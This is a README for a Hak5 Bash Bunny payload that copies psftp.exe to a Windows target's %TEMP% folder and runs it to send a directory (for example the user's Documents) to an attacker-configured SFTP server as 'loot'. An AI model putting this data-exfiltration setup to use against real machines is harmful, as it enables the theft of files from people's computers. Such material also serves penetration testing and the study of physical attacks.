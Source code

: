 # ExecutableInstaller with sftp recursive directory grab for Bash Bunnys

* Author: IMcPwn
* Revision for SFTP: Mule Skinner
* Version: Version 1.0
* Target: Windows
* NOTICE: HAK5 is not responsible for the execution of 3rd party binaries!

## Description

Copies psFTP.exe from the Bash Bunny USB Mass Storage root directory to %TEMP% and then executes with parameters in the e.cmd.

## Configuration

By default the staged payload copies the payload psFTP.exe from the root of the Bash Bunnyand executes it via e.cmd.
The payload copies to %TEMP%, change this to wherever you like by editing e.cmd.
You may also copy a payload inside a directory, see comments in e.cmd.
Make changes to e.cmd for your sFTP user@domain.com, sFTP password, sftp directory for loot and target machine directory 
for loot to be taken from. Variables are as follows:

sftphost=username@hostname.domain.com
sftppass=password
lootfrom=c:\users\username\documents
looto=/loot

IMPORTANT: 

To Download psftp.exe please use one of the links below:

32-Bit Version: https://the.earth.li/~sgtatham/putty/latest/w32/psftp.exe

64-Bit Version: https://the.earth.li/~sgtatham/putty/latest/w64/psftp.exe

Once downloaded, please copy psFTP.exe to the root of the bash bunny before attempting to use this payload.


## STATUS

| LED                | Status                                       |
| ------------------ | -------------------------------------------- |
| Red                | Attack Setup                                 |
| Green              | Attack Complete                              |

## Discussion
[Hak5 Forum Thread](https://forums.hak5.org/index.php?/forum/92-bash-bunny/ "Hak5 Forum Thread")

